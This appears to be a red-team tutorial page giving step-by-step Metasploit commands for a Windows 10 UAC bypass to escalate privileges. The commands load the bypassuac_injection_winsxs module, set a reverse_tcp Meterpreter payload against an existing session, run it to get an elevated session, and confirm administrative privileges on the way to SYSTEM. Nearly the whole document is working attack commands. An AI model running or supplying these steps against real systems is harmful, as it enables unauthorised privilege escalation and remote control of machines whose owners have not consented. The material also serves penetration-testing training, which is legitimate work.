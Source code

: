 The following procedures illustrate the steps for bypassing UAC to elevate privileges on a Windows 10 system:

```bash
meterpreter> background
```

To locate UAC modules, execute the following command:

```bash
msf> search bypassuac
```

The "bypassuac\_injection\_winsxs" module will be utilized, as it is the only module that functions on Windows 10 systems, as demonstrated in the accompanying screenshot.

![](../../assets/img/redteam/wpe2.png)

We can now load the bypass UAC module by running the following command:

```bash
msf> use module exploit/windows/local/bypassuac_injection_winsxs
```

After loading the module, we will need to configure the module options, this can be done by running the following commands:

```bash
msf> set payload windows/x64/meterpreter/reverse_tcp
```

```bash
msf> set target WIndows x64
```

```bash
msf> set SESSION <SESSION-ID>
```

After configuring the module options, we can now execute the module by running the following command:

```bash
msf> run
```

If successful, the module will send the meterpreter stage to the target and you should receive an elevated meterpreter session as shown in the following screenshot.

![](../../assets/img/redteam/wpe3.png)

We can confirm that we have an elevated session by listing out the Windows privileges for our current user, this can be done by running the following command in meterpreter:

```bash
meterpreter> getprivs
```

![](../../assets/img/redteam/wpe4.png)

As depicted in the previous screenshot, this meterpreter session has administrative privileges, enabling us to transition to an NT AUTHORITY/SYSTEM process.
